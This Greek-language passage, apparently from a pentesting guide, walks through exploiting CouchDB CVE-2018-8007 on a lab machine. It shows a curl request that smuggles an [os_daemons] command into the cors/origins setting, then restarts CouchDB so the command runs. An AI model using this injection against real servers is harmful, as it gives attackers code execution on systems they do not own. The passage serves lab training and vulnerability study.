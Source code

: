 Πρώτα, προετοιμάζουμε το περιβάλλον εξασφαλίζοντας ότι το αρχείο `local.ini` είναι εγγράψιμο, επαληθεύοντας τα δικαιώματα πρόσβασης:
```bash
root@canape:/home/homer/etc# ls -l
-r--r--r-- 1 homer homer 18477 Jan 20  2018 default.ini
-rw-rw-rw- 1 homer homer  4841 Sep 14 17:39 local.ini
-r--r--r-- 1 root  root   4841 Sep 14 14:30 local.ini.bk
-r--r--r-- 1 homer homer  1345 Jan 14  2018 vm.args
```
Για να εκμεταλλευτείτε την ευπάθεια, εκτελείται ένας εντολή curl, προστίθεται στον στόχο `cors/origins` της διαμόρφωσης `local.ini`. Αυτό εισάγει ένα νέο προέλευσης μαζί με επιπλέον εντολές στην ενότητα `[os_daemons]`, με σκοπό την εκτέλεση αυθαίρετου κώδικα:
```bash
www-data@canape:/dev/shm$ curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/cors/origins' -H "Accept: application/json" -H "Content-Type: application/json" -d "0xdf\n\n[os_daemons]\ntestdaemon = /usr/bin/touch /tmp/0xdf"
```
Ο επόμενος έλεγχος επιβεβαιώνει την εισαγωγή της διαμόρφωσης στο `local.ini`, συγκρίνοντάς το με ένα αντίγραφο ασφαλείας για να επισημάνει τις αλλαγές:
```bash
root@canape:/home/homer/etc# diff local.ini local.ini.bk
119,124d118
< [cors]
< origins = 0xdf
< [os_daemons]
< test_daemon = /usr/bin/touch /tmp/0xdf
```
Αρχικά, το αναμενόμενο αρχείο (`/tmp/0xdf`) δεν υπάρχει, υποδηλώνοντας ότι η εντολή που εισήχθη δεν έχει εκτελεστεί ακόμα. Περαιτέρω έρευνα αποκαλύπτει ότι εκτελούνται διεργασίες που σχετίζονται με το CouchDB, συμπεριλαμβανομένης μίας που θα μπορούσε ενδεχομένως να εκτελέσει την εισαγόμενη εντολή:
```bash
root@canape:/home/homer/bin# ps aux | grep couch
```
Τερματίζοντας την εντοπισμένη διεργασία του CouchDB και επιτρέποντας στο σύστημα να την επανεκκινήσει αυτόματα, ενεργοποιείται η εκτέλεση της ενθετωμένης εντολής, όπως επιβεβαιώνεται από την ύπαρξη του προηγουμένως απουσιάζοντος αρχείου:
```bash
root@canape:/home/homer/etc# kill 711
root@canape:/home/homer/etc# ls /tmp/0xdf
/tmp/0xdf
```
Η εξερεύνηση αυτή επιβεβαιώνει την εφαρμοσιμότητα της εκμετάλλευσης CVE-2018-8007 υπό συγκεκριμένες συνθήκες, ειδικά την απαίτηση για εγγράψιμη πρόσβαση στο αρχείο `local.ini`. Οι παραδείγματα κώδικα και οι διαδικαστικές ενέργειες που παρέχονται προσφέρουν έναν σαφή οδηγό για την αναπαραγωγή της εκμετάλλευσης σε έναν ελεγχόμενο περιβάλλον.

Για περισσότερες λεπτομέρειες σχετικά με την CVE-2018-8007, ανατρέξτε στην ενημέρωση από την mdsec: [CVE-2018-8007](https://www.mdsec.co.uk/2018/08/advisory-cve-2018-8007-apache-couchdb-remote-code-execution/).

### **Εξερεύνηση της CVE-2017-12636 με Δικαιώματα Εγγραφής στο local.ini**

Παράδειγμα [από εδώ](https://0xdf.gitlab.io/2018/09/15/htb-canape.html).
